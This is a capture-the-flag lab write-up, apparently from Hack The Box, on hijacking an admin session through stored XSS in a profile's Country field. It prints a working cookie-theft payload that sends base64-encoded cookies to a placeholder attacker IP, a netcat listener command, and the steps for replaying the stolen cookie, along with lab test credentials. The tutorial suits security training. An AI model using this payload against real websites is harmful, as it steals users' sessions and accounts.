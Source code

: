 # Skill Assessment

#### You are currently participating in a bug bounty program.

* The only URL in scope is `http://minilab.htb.net`
* Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
* Test account credentials:
  * Email: heavycat106
  * Password: rocknrol
* Through dirbusting, you identified the following endpoint `http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

#### Read the flag residing in the admin's public profile. Answer format: \[string]

The first thing that we should do to try to hijack a session from the web application is understand what is keeping the user with the session established. After looking around a bit I found that the **Cookie: auth-sess** is the key component.&#x20;

So our first task ask us to read the file from the admin's public profile. This mislead me a bit, but fortunately the hint actually tell that we have to make the admin's profile public in order to read the flag.

Before moving to the solution let's first ask these two questions:

* What is the admin's profile?
* How do I hijack his session?

We don't have any information regarding this questions. However, the statement above give us a clue that we have to explore the `http://minilab.htb.net/submit-solution` endpoint.

If we paste the URL on the browser, we should receive the following output:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

From the output above we can that a url is missing. Let's add it and append the domain to it:

`http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/submit-solution`

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Now the output is different. But what does it mean?&#x20;

This endpoint simulates the admin interaction. Basically this is where we "deliver" the payload to the admin.

Since that we make this clear, now let's explore the application and how we can deliver the payload.

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

When we logged in with the provided credentials this is are the default values. The vulnerable parameter that we are going to exploit is the **Country** field.&#x20;

To edit it, simply delete the presented values and replace it with `<script>alert(document.domain)</script>`

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Then click it on **Share**.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

And the payload got executed! Notice the highlighted URL, this is what we have to deliver to the admin.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

By pressing **Ctrl + Shit + I** we can inspect the Cookie value. We can see that there is indeedn a **auth-session**, and the **HttpOnly** is set to false.

Now we have to came with a payload that retrieves the Cookie from the admin's connection attempt:

{% code overflow="wrap" %}
```
"><img src="x" onerror="document.write(`<img src='http://OUR_VPN_IP:PORT?cookie=${btoa(document.cookie)}'>`)">
```
{% endcode %}

Replace the IP, paste the the payload on the **Country** field and save.

In order to capture the Request, we have to setup a listener on our machine:

```
nc -lvpn 8000
```

Now, on a private tab, or different browser paste the following URL:

{% code overflow="wrap" %}
```
http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

And we got the admin's cookie!

Notice that in our previous payload we used the function btoa that encodes a string to base64.

Now we have to reverse the process:

```
echo "ENCODED COOKIE" | base64 --decode
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>



Paste the decoded Cookie on the Cookie value and refresh the page.

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

And we got Admin access! Now we have to make the admin's profile public. Click on **Change Visibility**.

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Then click on **Share**.

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

And we got the first flag!

#### Go through the PCAP file residing in the admin's public profile and identify the flag. Answer format: FLAG{string}

For the second part of this lab, we have to download the pcap file on the admins profile

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Click on Flag2 do download the pcap file and then open it with wireshark

Then we have to look for a part of the string. Click on **Edit** > **Find Packet** > Select **Packet bytes** and **String**.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Then just click on **Find** and we got the second flag!

